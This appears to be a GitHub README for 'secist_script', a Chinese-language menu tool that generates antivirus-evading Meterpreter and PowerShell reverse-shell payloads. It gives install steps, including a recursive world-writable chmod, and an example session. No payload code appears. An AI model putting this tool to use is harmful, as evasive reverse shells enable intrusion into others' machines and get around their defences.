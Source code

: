 
＃secist_script

由于传播，利用此脚本所提供的工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，即刻安全以及工具作者不为此承担任何责任。

#说明

此款工具借鉴

https://github.com/govolution/avet => avet

https://github.com/CroweCybersecurity/ps1encode => ps1encode

https://github.com/M4sc3r4n0/avoidz =>avoidz

web_delivery => msf

Invoke => powershell

#用法（Usage）：

git clone https://github.com/demonsec666/secist_script.git

sudo chmod -R 777 .

3./setup.sh

#例子 secist> 7

     < avoidz Payload >
      --------------------
                         \   ^__^             
                          \  (oo)\_______     
                             (__)\       )\/\ 
                                 ||----w |    
                                 ||     ||     
+------------++-------------------------++-----------------------+ 即刻安全周年庆版v1.6 (secist----2017.7.14)

        你的IP地址 :192.168.1.103
        系统版本 :Kali GNU/Linux Rolling \n \l
+------------++-------------------------++-----------------------+

    [1] Meterpreter_Reverse_tcp		 [5] Shell_reverse_tcp
    [2] Meterpreter_Reverse_http		 [6] Powershell_reverse_tcp
    [3] Meterpreter_Reverse_https		 [7] Multi encode payload
    [4] Meterpreter_Reverse_tcp_dns          [8] exit        
    [9] back meun     

                secist>  1
		         secist>请输入你的ip地址: 192.168.1.103
   secist>请输入你的端口: 4444
请稍等几分钟，您的烤鱼即将出炉=====================================》 ##################################################################

Tool To bypass most A.V - dev-labs

#作者（About Me）

即刻安全 => demon

博客 => www.ggsec.cn

团队博客 =>www.secist.com

Metasploit 系列教程 => 链接:https://pan.baidu.com/s/1dFzPkJZ 密码:evwg

Metasploit 系列教程 第八课=> www.ggsec.cn/MSF8-0.html